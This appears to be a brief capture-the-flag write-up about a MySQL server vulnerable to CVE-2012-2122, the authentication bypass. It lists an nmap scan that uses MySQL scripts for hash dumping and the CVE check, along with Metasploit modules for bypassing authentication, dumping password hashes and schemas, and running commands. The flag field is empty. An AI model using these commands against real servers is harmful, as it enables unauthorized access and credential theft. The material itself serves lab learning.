



# They call him Bobby



### They call him Bobby  - Resolution

<https://bobby-tables.com/>

Seems this version of mysql has a security flaw. - CVE-2012-2122

<https://www.rapid7.com/blog/post/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/>


- nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
- msf> use auxiliary/scanner/mysql/mysql_version
- msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
- msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
- msf> use auxiliary/admin/mysql/mysql_enum #Creds
- msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
- msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds






``` Flag :  ```
